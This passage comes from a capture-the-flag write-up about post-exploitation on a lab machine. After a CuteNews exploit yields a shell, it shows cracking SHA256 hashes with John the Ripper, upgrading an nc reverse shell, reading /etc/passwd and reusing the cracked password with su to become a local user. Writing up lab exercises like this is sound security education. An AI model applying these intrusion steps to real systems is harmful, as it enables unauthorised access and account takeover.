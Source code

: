 We successfully execute the exploit and get a shell. A nice feature of this exploit, is the extraction of the password-hashes of the users. Let us try to crack these hashes.

### Cracking the user-hashes

```bash
root@darkness:~# john hashes.txt -w=/usr/share/wordlists/rockyou.txt --format=RAW-SHA256
Using default input encoding: UTF-8
Loaded 5 password hashes with no different salts (Raw-SHA256 [SHA256 256/256 AVX2 8x])
Warning: poor OpenMP scalability for this hash type, consider --fork=4
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
atlanta1         (?)
1g 0:00:00:01 DONE (2021-01-13 10:42) 0.9009g/s 12921Kp/s 12921Kc/s 51746KC/s -sevim-..*7¡Vamos!
Use the "--show --format=Raw-SHA256" options to display all of the cracked passwords reliably
Session completed
```

Seems like we have successfully cracked one of the passwords to be `atlanta1`. 

### Privesc to user

Let us upgrade our shell and try to use the password.

```bash
www-data@passage:/var/www/html/CuteNews/uploads$ python3 -c 'import pty;pty.spawn("/bin/bash")'
<tml/CuteNews/uploads$ python3 -c 'import pty;pty.spawn("/bin/bash")'        
www-data@passage:/var/www/html/CuteNews/uploads$ ^Z
[1]+  Stopped                 nc -lnvp 443
root@darkness:~# stty raw -echo
nc -lnvp 443s:~# 

www-data@passage:/var/www/html/CuteNews/uploads$ export TERM=xterm
```

Now our shell is fully upgraded and we can check /etc/passwd to see which users are available on the system.

```bash
www-data@passage:/var/www/html/CuteNews/uploads$ cat /etc/passwd | grep sh
root:x:0:0:root:/root:/bin/bash
nadav:x:1000:1000:Nadav,,,:/home/nadav:/bin/bash
paul:x:1001:1001:Paul Coles,,,:/home/paul:/bin/bash
```

Seems like we have three users: `root`, `nadav` and `paul`. Let us try to use the password to su to each user.

```bash
www-data@passage:/var/www$ su root
Password: atlanta1
su: Authentication failure
www-data@passage:/var/www$ su nadav
Password: atlanta1
su: Authentication failure
www-data@passage:/var/www$ su paul
Password: atlanta1
paul@passage:/var/www$
```

